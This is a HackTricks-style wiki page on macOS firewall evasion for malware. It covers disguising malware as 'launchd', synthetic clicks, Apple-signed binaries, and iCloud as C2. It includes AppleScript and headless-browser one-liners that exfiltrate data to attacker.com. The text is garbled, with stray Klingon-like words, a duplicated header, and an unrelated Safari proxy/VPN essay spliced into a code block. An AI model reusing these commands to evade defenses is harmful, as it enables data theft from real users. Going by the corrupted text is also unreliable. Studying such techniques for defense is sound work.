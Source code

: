 # macOS Bypassing Firewalls

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Found techniques

The following techniques were found working in some macOS firewall apps.

### Abusing whitelist names

* For example calling the malware with names of well known macOS processes like **`launchd`**&#x20;

### Synthetic Click

* If the firewall ask for permission to the user make the malware **click on allow**

### **Use Apple signed binaries**

* Like **`curl`**, but also others like **`whois`**

### Well known apple domains

The firewall could be allowing connections to well known apple domains such as **`apple.com`** or **`icloud.com`**. And iCloud could be used as a C2.

### Generic Bypass

Some ideas to try to bypass firewalls

### Check allowed traffic

Knowing the allowed traffic will help you identify potentially whitelisted domains or which applications are allowed to access them
```bash
lsof -i TCP -sTCP:ESTABLISHED
```
### DNS vItlhutlh

DNS resolutions **`mdnsreponder`** signed application vItlhutlh contact DNS servers.

<figure><img src="../../.gitbook/assets/image (1) (1) (6).png" alt="https://www.youtube.com/watch?v=UlT5KFTMn2k"><figcaption></figcaption></figure>

### Browser apps qar'a'wI'

* **oascript**
```applescript
tell application "Safari"
run
tell application "Finder" to set visible of process "Safari" to false
make new document
set the URL of document 1 to "https://attacker.com?data=data%20to%20exfil
end tell
```
* Google Chrome

{% code overflow="wrap" %}* Google Chrome

{% code overflow="wrap" %}
```bash
"Google Chrome" --crash-dumps-dir=/tmp --headless "https://attacker.com?data=data%20to%20exfil"
```
{% endcode %}

* Firefox
```bash
firefox-bin --headless "https://attacker.com?data=data%20to%20exfil"
```
# Safari

## Introduction

Safari is the default web browser for macOS. It is known for its speed and efficiency, as well as its strong security features. However, there are still ways to bypass its security measures and gain unauthorized access to sensitive information.

## Bypassing Firewalls

### 1. Proxy Servers

One way to bypass firewalls in Safari is by using proxy servers. Proxy servers act as intermediaries between your computer and the websites you visit, allowing you to access blocked content. By configuring Safari to use a proxy server, you can bypass firewall restrictions and access restricted websites.

To configure a proxy server in Safari, follow these steps:

1. Open Safari and go to **Preferences**.
2. Click on the **Advanced** tab.
3. Click on the **Change Settings** button next to **Proxies**.
4. Select the **Web Proxy (HTTP)** option and enter the IP address and port number of the proxy server.
5. Click **OK** to save the changes.

### 2. VPNs

Another way to bypass firewalls in Safari is by using a Virtual Private Network (VPN). A VPN creates a secure connection between your computer and a remote server, encrypting your internet traffic and hiding your IP address. By connecting to a VPN server, you can bypass firewall restrictions and access blocked websites.

To use a VPN in Safari, follow these steps:

1. Install a VPN client on your computer.
2. Open the VPN client and connect to a VPN server.
3. Once connected, open Safari and browse the internet as usual.

## Conclusion

While Safari is a secure web browser, it is still possible to bypass its security measures and gain unauthorized access to sensitive information. By using proxy servers or VPNs, you can bypass firewalls and access blocked content. However, it is important to use these techniques responsibly and ethically.
```bash
open -j -a Safari "https://attacker.com?data=data%20to%20exfil"
```
### Via processes injections

If you can **inject code into a process** that is allowed to connect to any server you could bypass the firewall protections:

{% content-ref url="macos-proces-abuse/" %}
[macos-proces-abuse](macos-proces-abuse/)
{% endcontent-ref %}

## References

* [https://www.youtube.com/watch?v=UlT5KFTMn2k](https://www.youtube.com/watch?v=UlT5KFTMn2k)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
